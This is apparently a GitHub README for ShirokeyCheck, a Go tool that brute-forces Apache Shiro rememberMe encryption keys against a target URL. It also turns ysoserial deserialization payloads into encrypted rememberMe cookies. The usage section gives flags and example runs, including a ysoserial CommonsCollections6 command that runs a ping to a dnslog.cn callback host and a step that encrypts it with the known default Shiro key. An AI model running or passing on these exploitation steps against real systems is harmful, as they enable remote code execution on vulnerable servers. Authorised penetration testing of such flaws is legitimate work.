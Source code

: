 # ShirokeyCheck

[中文介绍](README.zh_CN.md)

Golang development, multi-platform support.
In order to adapt to different targets and different network conditions, a variety of http request parameters have been added, such as: specified request timeout, each request interval, http proxy.
There are 129 keys built in, and two modes of detection, AES-CBC and AES-GCM, are supported by default.
Support to encrypt the payload generated by ysoserial, generate rememberMe field, and use it.

## Usage

```
Usage of ./ShiroKeyCheck:
  -content string
    	POST Method Content
  -interval int
    	Each request interval time(s)
  -key string
    	Specify the key and use CBC and GCM modes for detection
  -m string
    	Request Method (default "GET")
  -mode string
    	Specify CBC or GCM encryption mode (only valid for -ser parameter)
  -proxy string
    	Set up http proxy e.g. http://127.0.0.1:8080
  -ser string
    	Encrypt the bytecode file to generate the RememberMe field
  -timeout int
    	Request timeout time(s) (default 60)
  -u string
    	Target url（Needed）
  -ua string
    	User-Agent (default "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36")
```

## keyCheck

`ShiroKeyCheck -u http://172.19.28.20:8080/login.jsp` ![img](image/1.png)

### Set proxy and request interval

`./ShiroKeyCheck -u http://172.19.28.20:8080/login.jsp -interval 10 -proxy http://127.0.0.1:7890`

![img](image/2.png)

### Encrypt the payload generated by ysoserial

`java -jar ysoserial.jar CommonsCollections6 "ping 18pa70.dnslog.cn" > aa.txt`

`./ShiroKeyCheck -key kPH+bIxk5D2deZiIxcaaaA== -mode cbc -ser aa.txt`

![img](image/3.png)

## Compilation

```
go build -ldflags="-s -w" -o ShiroKeyCheck main.go
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o ShiroKeyCheck.exe main.go
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -o ShiroKeyCheck main.go
```



